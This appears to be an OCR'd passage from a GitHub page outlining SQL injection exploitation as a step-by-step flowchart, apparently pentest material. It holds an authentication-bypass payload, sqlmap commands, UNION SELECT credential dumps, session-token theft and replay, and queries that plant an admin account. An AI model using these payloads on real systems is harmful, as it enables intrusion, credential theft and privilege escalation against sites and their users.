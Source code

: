 `SELECT token, ip FROM sessions;`

or:

`SELECT cookie FROM analytics_logs;`

then Replay:

`Cookie: session=stolen_token`

# SQLi Exploitation Flow (Textual Flowchart)

[1] Entry Point Discovery

  └─► Scan input vectors (forms, URLs, headers, cookies, GraphQL)

  └─► Check for injectable parameters (manual or with tools like sqlmap, Burp)


[2] Initial SQL Injection

  └─► Test for authentication bypass or query manipulation

  └─► Bypass login with `' OR '1'='1`

  └─► Trigger DB errors or anomalies (timing, boolean)


[3] DBMS Fingerprinting

  └─► Extract database type/version

  └─► SELECT @@version / version()

  └─► sqlmap --banner


[4] Table & Column Enumeration

  └─► Find structure of DB

  └─► sqlmap --tables / --columns

  └─► Manually with UNION SELECT or information_schema


[5] Data Exfiltration
  └─► Dump sensitive data (users, passwords, tokens, emails)

  └─► sqlmap --dump

  └─► UNION SELECT username, password FROM users

  └─► Blind SQLi (boolean/time-based inference)


[6] Privilege Escalation

  └─► Modify user roles or inject new admin

  └─► UPDATE users SET is_admin=1 WHERE username='guest'

  └─► INSERT INTO users (...) VALUES (...)

